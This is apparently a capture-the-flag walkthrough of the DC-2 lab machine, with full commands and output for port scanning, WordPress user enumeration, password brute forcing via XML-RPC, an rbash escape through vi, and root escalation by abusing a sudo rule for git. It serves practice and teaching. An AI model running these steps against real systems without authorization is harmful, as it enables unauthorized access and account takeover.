

# DC-2

- Key takeaways
    - Don’t bruteforce on ssh with huge password list.
    - Even when site is not visible, add that into /etc/hosts file
    - rbash means restricted ones, look for escalation and then export the bin and sbin paths if necessary.

Identifying the target ip.

```bash
┌──(kali㉿kali)-[~]
└─$ 
 Currently scanning: 192.168.25.0/16   |   Screen View: Unique Hosts           
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.10.1    00:50:56:c0:00:08      1      60  VMware, Inc.                
 192.168.10.2    00:50:56:eb:f8:6f      1      60  VMware, Inc.                
 **192.168.10.134**  00:0c:29:cb:2d:f1      1      60  VMware, Inc.                
 192.168.10.254  00:50:56:fa:9f:c9      1      60  VMware, Inc.
```

### Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p- 192.168.10.134 -v
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 11:42 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Initiating ARP Ping Scan at 11:42
Scanning 192.168.10.134 [1 port]
Completed ARP Ping Scan at 11:42, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:42
Scanning dc-2 (192.168.10.134) [65535 ports]
Discovered open port 80/tcp on 192.168.10.134
Discovered open port 7744/tcp on 192.168.10.134
Completed SYN Stealth Scan at 11:42, 0.94s elapsed (65535 total ports)
Initiating Service scan at 11:42
Scanning 2 services on dc-2 (192.168.10.134)
Completed Service scan at 11:42, 6.04s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.10.134.
Initiating NSE at 11:42
Completed NSE at 11:42, 0.87s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.06s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Nmap scan report for dc-2 (192.168.10.134)
Host is up (0.00057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: DC-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.10 (Debian)
|_http-generator: WordPress 4.7.10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 00:0C:29:CB:2D:F1 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Initiating NSE at 11:42
Completed NSE at 11:42, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.26 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

---

basically, only two ports are open at port 80(http) and 7744(SSH) typically port 22.

Checking on web for website.

when you dont get the machine’s web page, add it’s ip and domain name in 

/etc/hosts file being a root.



In the home page itself, we were given a hint to proceed further into the challenge.

It suggests us to use personalized dict passwords using tool cewl.

Moreover, this is a WordPress site, so whenever we encounter wordpress site, 

just make a wpscan.

-e u to enumerate users if available

```bash
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://dc-2 -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.10.134]
[+] Started: Sun Dec 29 11:49:17 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 29 11:49:19 2024
[+] Requests Done: 27
[+] Cached Requests: 37
[+] Data Sent: 7.013 KB
[+] Data Received: 178.184 KB
[+] Memory used: 216.605 MB
[+] Elapsed time: 00:00:01

```

Observe the scan result,

we have got those three users, (admin, tom and Jerry)

### Making the passwords using CEWL tool

```bash
┌──(kali㉿kali)-[~]
└─$ cewl http://dc-2 > pass.txt

```

### bruteforcing those credentials into the site.

```bash
┌──(kali㉿kali)-[~]
└─$  wpscan --url http://dc-2 -U users.txt -P dc2pass.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.10.134]
[+] Started: Sun Dec 29 10:52:39 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 3 user/s
**[SUCCESS] - jerry / adipiscing                                                                                                                                                                              
[SUCCESS] - tom / parturient**                                                                                                                                                                                
Trying admin / next Time: 00:00:22 <===========================================================================                                                         > (649 / 1127) 57.58%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 29 10:53:04 2024
[+] Requests Done: 790
[+] Cached Requests: 37
[+] Data Sent: 357.674 KB
[+] Data Received: 416.323 KB
[+] Memory used: 262.059 MB
[+] Elapsed time: 00:00:25
                                                                                                                                                                                                            

```

**[SUCCESS] - jerry / adipiscing                                                                                                                                                                              
[SUCCESS] - tom / parturient**   

### Also perform a nikto scan for info

```bash
┌──(kali㉿kali)-[~]
└─$ nikto --host http://dc-2   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.10.134
+ Target Hostname:    dc-2
+ Target Port:        80
+ Start Time:         2024-12-29 10:59:32 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Drupal Link header found with value: ARRAY(0x559eb4c617b8). See: https://www.drupal.org/
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ /wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ **/wp-login.php: Wordpress login found.**
+ 7850 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-12-29 10:59:46 (GMT-5) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

we have got a entry point of login to try those cred..

login as tom and jerry in those sites.

They lead to nothing but suggested to use ssh login.

### SSH login with above cred.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh tom@192.168.10.134 -p 7744
tom@192.168.10.134's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec 29 16:41:19 2024 from 192.168.10.129
tom@DC-2:~$ ls
flag3.txt usr

```

Use Less command to view those flags easily if it is restricted.

<aside>
⛳

Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

</aside>

while su’ing into jerry,

it says rbash: su : command not found.

---

rbash is simply a restricted shell, so we shall do something to get into normal shell.

then, in this case look for anything like vi. here, there is vi.

- type vi
- Type :set shell=/bin/bash <enter>
- :shell

Now, we will come to bash instead of rbash, now we can export the path variable.

hence, 

```bash
export PATH=$PATH:/bin:/sbin
```

With this, we can now use almost all the commands.

```bash
bin
tom@DC-2:~$ ls usr/bin
less  ls  scp  vi
tom@DC-2:~$ vi

tom@DC-2:~$ su jerry
bash: su: command not found
tom@DC-2:~$ vi

tom@DC-2:~$ export
declare -x HOME="/home/tom"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="tom"
declare -x MAIL="/var/mail/tom"
declare -x OLDPWD
declare -x PATH="/home/tom/usr/bin"
declare -x PWD="/home/tom"
declare -x SHELL="/bin/rbash"
declare -x SHLVL="3"
declare -x SSH_CLIENT="192.168.10.129 37534 7744"
declare -x SSH_CONNECTION="192.168.10.129 37534 192.168.10.134 7744"
declare -x SSH_TTY="/dev/pts/1"
declare -x TERM="xterm-256color"
declare -x USER="tom"
declare -x VIM="/usr/share/vim"
declare -x VIMRUNTIME="/usr/share/vim/vim74"
tom@DC-2:~$ export PATH=$PATH:/bin/sbin
tom@DC-2:~$ su jerry
bash: su: command not found
tom@DC-2:~$ cd
tom@DC-2:~$ ls
flag3.txt  usr
tom@DC-2:~$ cd usr
tom@DC-2:~/usr$ cd
tom@DC-2:~$ export PATH=$PATH:/bin:/sbin
tom@DC-2:~$ 
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ 

```

### Now explore this jerry user.

```bash
jerry@DC-2:~$ ls
flag4.txt
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

jerry@DC-2:~$ 

```

It is having some typo’s like git instead of get, just ignore them. Lol!!

they are the important hints. 

Now, the final flag could possibly be in root, so we must perform privilage escalation.

hence, 

```bash
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:~$ 

```

Git command can be exploited on jerry user and can be pwned the root user.

Open GTFObins and search of git under sudo section and try those commands one by one.

[git](https://gtfobins.github.io/gtfobins/git/)

```bash
sudo git -p help config
!/bin/sh
```

This one allowed me to go,

```bash
# whoami
root
# pwd
/home/jerry
# cd
# pwd
/root
# ls
final-flag.txt
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   

Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 

```

And this is how we finally, 

exploited WordPress bugs and weak passwords resulting of penetration into target.